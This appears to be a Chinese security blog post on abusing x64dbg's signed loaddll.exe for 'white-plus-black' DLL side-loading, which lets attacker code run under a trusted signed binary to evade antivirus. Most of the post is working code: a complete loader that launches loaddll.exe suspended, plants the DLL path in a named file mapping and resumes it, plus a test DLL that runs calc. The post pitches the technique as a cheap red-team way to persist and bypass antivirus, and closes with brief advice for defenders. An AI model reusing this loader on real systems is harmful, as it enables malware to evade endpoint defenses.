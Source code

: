 ```yaml
---
title: "x64dbg中的白加黑利用"
date: 2022-08-17
description: 在木马样本与杀毒软件的对抗中，再隐蔽的木马在被发现的那一刻，它的这一生就结束了。杀毒软件厂商通过SHA1/2、MD5等算法取得样本的唯一值来构建云端的特征库，当下一次攻击发生时，将会通过特征库进行比对，因此成本对抗不言而喻，红队的木马需要重新修改、编译，大大增加了对抗的时间、精力，这就是威胁情报的一种价值。反观有些软件确实会需要开发一些敏感行为的功能，如修改注册表、屏幕录像截图但这些是用户知情且授权的行为，这时杀毒软件再进行拦截的话，将大大降低软件使用的体验，所以出现了软件签名技术可以解决这类问题，当然软件签名技术不仅仅是为了只解决这一个问题而出现的....
url: /archivers/2022-08-17/1
---
```


## 0x00 何谓白加黑？

在木马样本与杀毒软件的对抗中，再隐蔽的木马在被发现的那一刻，它的这一生就结束了。杀毒软件厂商通过SHA1/2、MD5等算法取得样本的唯一值来构建云端的特征库，当下一次攻击发生时，将会通过特征库进行比对，因此成本对抗不言而喻，红队的木马需要重新修改、编译，大大增加了对抗的时间、精力，这就是威胁情报的一种价值。反观有些软件确实会需要开发一些敏感行为的功能，如修改注册表、屏幕录像截图但这些是用户知情且授权的行为，这时杀毒软件再进行拦截的话，将大大降低软件使用的体验，所以出现了软件签名技术可以解决这类问题，当然软件签名技术不仅仅是为了只解决这一个问题而出现的。有些APT组织会通过控制软件开发商的代码仓库进行投毒或者通过入侵软件开发商来窃取签名，给自己的木马加上签名验证，杀毒软件遇到签名将会默认信任这个程序。但攻击软件开发商所需要投入的成本也相对比较高，telegram上也出现了花钱签名的服务，不过白嫖怪的数量可比金主爸爸要多，白嫖怪为了得到一个可以以签名程序运行自己任意代码的条件就会去挖掘一些软件厂商的程序是否存在DLL劫持漏洞，利用DLL劫持的特性达到披着羊皮的狼的目的。现阶段基本上大多数的APT组织在进行权限维持都会采用白加黑的技术来绕过杀毒软件的拦截和检测（特殊行为除外）。本文将会分享一个关于x64dbg这款调试工具的白加黑利用技巧。

## 0x02 x64dbg的DLL加载组件

[x64dbg](https://github.com/x64dbg/x64dbg) 是一个开源的Windows平台下的调试工具，相比于OllyDbg我更喜欢x64dbg。打开x64dbg的目录，可以看到有一个loaddll.exe程序，顾名思义，它一定具有dll加载的功能。

![](../../../static/images/2022-08-17-15-50-00.png)

在跟进到它的[源代码](https://github.com/x64dbg/x64dbg/blob/development/src/loaddll/loaddll.cpp)：

```cpp
#include <windows.h>

wchar_t szLibraryPath[512];

int main()
{
    wchar_t szName[256];
    wsprintfW(szName, L"Local\\szLibraryName%X", (unsigned int)GetCurrentProcessId());
    HANDLE hMapFile = OpenFileMappingW(FILE_MAP_READ, false, szName);
    if(hMapFile)
    {
        const wchar_t* szLibraryPathMapping = (const wchar_t*)MapViewOfFile(hMapFile, FILE_MAP_READ, 0, 0, sizeof(szLibraryPath));
        if(szLibraryPathMapping)
        {
            lstrcpyW(szLibraryPath, szLibraryPathMapping);
            UnmapViewOfFile(szLibraryPathMapping);
        }
        CloseHandle(hMapFile);
    }
    if(szLibraryPath[0])
        return (LoadLibraryW(szLibraryPath) != NULL);
    return 0;
}
```

代码非常简单，大致功能是读取本地系统上一个文件映射具柄，从文件映射句柄中获取要加载的dll文件路径。文件句柄的名称包含了当前进程的PID，是不固定的。那么如何实现任意文件加载呢？

这个问题也比较简单，我的大致思路：

1. 调用CreatProcess创建一个暂停的主线程的loaddll.exe
2. 获得loaddll.exe这个进程的启动信息，读取到它的进程ID
3. 创建文件映射，把要加载的dll路径写入文件映射中，等待loaddll.exe读取
4. 将loaddll.exe进程的线程从挂起状态恢复成运行状态

Invoke-Loader测试代码：

```c
#include <Windows.h>
#include <stdio.h>
#include <sddl.h>

WCHAR dllPath[1024] = L"C:\\Windows\\Temp\\Test\\DllMain.dll";
WCHAR loaderPath[] = L"C:\\Windows\\Temp\\Test\\loaddll.exe";

HANDLE CreateMapFile() {
	HANDLE hFile = NULL;
	hFile = CreateFile(L"C:\\Windows\\Temp\\Test\\2.log", FILE_GENERIC_READ | FILE_GENERIC_WRITE, FILE_SHARE_READ,
		NULL,
		OPEN_ALWAYS,
		NULL,
		NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		return NULL;
	}
	WriteFile(hFile, dllPath, sizeof(dllPath), NULL, NULL);
	return hFile;
}

int __stdcall WinMain(
	HINSTANCE hInstance,
	HINSTANCE hPrevInstance,
	LPSTR     lpCmdLine,
	int       nShowCmd
){
	wchar_t szName[256];
	DWORD dwFileSize = 0;
	
	HANDLE hFile = NULL;
	HANDLE hFileMap = NULL;
	SECURITY_ATTRIBUTES attributes;
	STARTUPINFO si;
	PROCESS_INFORMATION pi;
	ZeroMemory(&si, sizeof(si));
	si.cb = sizeof(si);
	ZeroMemory(&pi, sizeof(pi));
	ZeroMemory(&attributes, sizeof(attributes));
	attributes.nLength = sizeof(attributes);
	
	ConvertStringSecurityDescriptorToSecurityDescriptorA(
		"D:P(A;OICI;GA;;;SY)(A;OICI;GA;;;BA)(A;OICI;GWGR;;;IU)",
		SDDL_REVISION_1,
		&attributes.lpSecurityDescriptor,
		NULL);

	hFile = CreateMapFile();
	if (hFile == NULL) {
		return 0;
	}
	
	
	BOOL bStatus = CreateProcessW(loaderPath, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED| CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
	if (bStatus == NULL) {
		/*wprintf(L"[-] CreateProcess Error %d \n", GetLastError());*/
		return 0;
	}
	
	ZeroMemory(szName, sizeof(szName));
	
	wsprintfW(szName, L"Local\\szLibraryName%X", (unsigned int)pi.dwProcessId);
	
	
	hFileMap = CreateFileMappingW(hFile, &attributes, PAGE_READWRITE, 0, 1024, szName);
    

	ResumeThread(pi.hThread);

	Sleep(3000);
	return 0;
}
```

编写一个dll文件用于测试：

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <stdio.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        // 弹出一个计算器
        WinExec("calc.exe", TRUE);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

## 0x03 加载任意dll测试

![](../../../static/images/2022-08-17-15-51-15.png)

双击Invoke-Loader.exe，就会弹出计算器：

![](../../../static/images/2022-08-17-15-51-29.png)

通过ProcessMonitor分析一下过程是不是如我所想的那样：

![](../../../static/images/2022-08-17-15-51-41.png)

首先创建了2.log，内容是DllMain.dll的绝对路径，然后再创建loaddll.exe：



![](../../../static/images/2022-08-17-15-51-52.png)

主线程创建的时候因为是暂停状态，是没有加载任何dll的，当文件映射设置完毕，恢复线程状态后，它成功的加载了DllMain.dll。
![](../../../static/images/2022-08-17-15-52-04.png)

![](../../../static/images/2022-08-17-15-52-14.png)

这里的calc.exe的父进程是loaddll.exe。

## 0x04 总结


![](../../../static/images/2022-08-17-15-52-37.png)

该程序上次更新已经是2020年了，可能已经被大范围滥用。


![](../../../static/images/2022-08-17-15-52-47.png)

白加黑是一个降低红队攻击成本的一个方案，能够规避很多杀毒软件的拦截和扫描，在应急响应阶段对于签名程序的分析应更加关注签名程序加载的模块、进程行为做了哪些操作，签名验证仅仅是提高了攻击的门槛，不应该绝对信任签名程序。